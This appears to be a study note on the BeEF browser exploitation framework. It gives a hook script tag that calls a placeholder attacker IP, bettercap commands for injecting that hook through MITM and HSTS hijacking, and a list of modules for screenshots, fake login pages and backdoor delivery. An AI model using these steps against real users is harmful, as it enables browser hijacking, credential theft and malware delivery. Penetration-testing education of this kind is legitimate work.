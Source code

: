 BeEF : Browser Exploitation Framework  
Makes use of JS to hook the target browser. Works on any platform as long as target device browser supported JS

Username : beef  
Password : password

<u>Hook URL</u>

````bash
<script src="http://<attacker-ip-address>:3000/hook.js"></script>
````

The URL can be sent to the target using various methods like Social Engineering, MITM attack with DNS spoofing, XSS or JS Injection after performing MITM attack

### Tabs Explained

Detail Tab : Browser Details  
Logs : Events that occurred in the browser  
Commands : Run various commands  
Proxy : Allows to use hooked browser as a proxy  
XssRays : Shows if page has any XSS vulnerabilities  
Network : Overview of current network

<u>Load Hook Script on all Sites (MITM + JS Injection)</u>

Inject Beef Code : <https://drive.google.com/file/d/1uCeGZKyP1Cj2UIORqYMrlFTyi9dLaCUa/view?usp=sharing>  
Add the JS Script in the HSTS Hijack caplet file and perform MITM attack

````bash
bettercap -iface <interface> -caplet <sniff-data-cap-file>
hstshijack/hstshijack (Run HSTS Caplet)
````

---

### Commands

1. <u>Create Alert Dialog</u>  
   Create an dialog box on the target browser

2. <u>Raw JavaScript</u>  
   Execute JS code on the target browser

3. <u>Spyder Eye</u>  
   Take screenshot of the target browser screen

4. <u>Redirect Browser</u>  
   Redirect the target to an different webpage
   Can be used to redirect to download an backdoor, fake login page, etc.

5. <u>Get Visited URL</u>  
   Check of a URL was visited by the target

6. <u>Pretty Theft</u>  
   Create fake relogin page to steal credentials

7. <u>Fake Notification Bar</u>  
   Send Backdoor, malicious code to user using an fake notification message  
   If sending an backdoor ensure to start "Multi Handler" to listen to the connection
